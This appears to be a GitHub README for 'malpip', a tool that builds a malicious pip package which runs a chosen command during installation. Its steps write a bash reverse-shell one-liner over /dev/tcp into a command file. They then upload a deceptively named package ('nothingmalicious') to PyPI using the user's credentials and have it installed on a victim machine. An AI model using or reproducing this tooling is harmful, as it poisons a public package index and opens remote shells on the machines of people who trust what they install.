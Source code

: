 
# malpip
Create a malicious pip package that runs your command during installation.

## Prerequisite
Create an account on https://pypi.org

## Installation
1. Clone repository and set permissions.
```bash
git clone https://github.com/thegoodhackertv/malpip.git
cd malpip
sudo chmod +x malpip.sh
```
2. Install dependencies.
```bash
sudo ./malpip install
```
3. Set the command to be executed.
```bash
echo "/bin/bash -i >& /dev/tcp/127.0.0.1/1337 0>&1" > command.txt
```
4. Create malicious project.
You will be asked for your pypi credentials to upload the project.
```bash
./malpip create nothingmalicious command.txt
```
5. Install the package on the victim machine and your command will be executed.

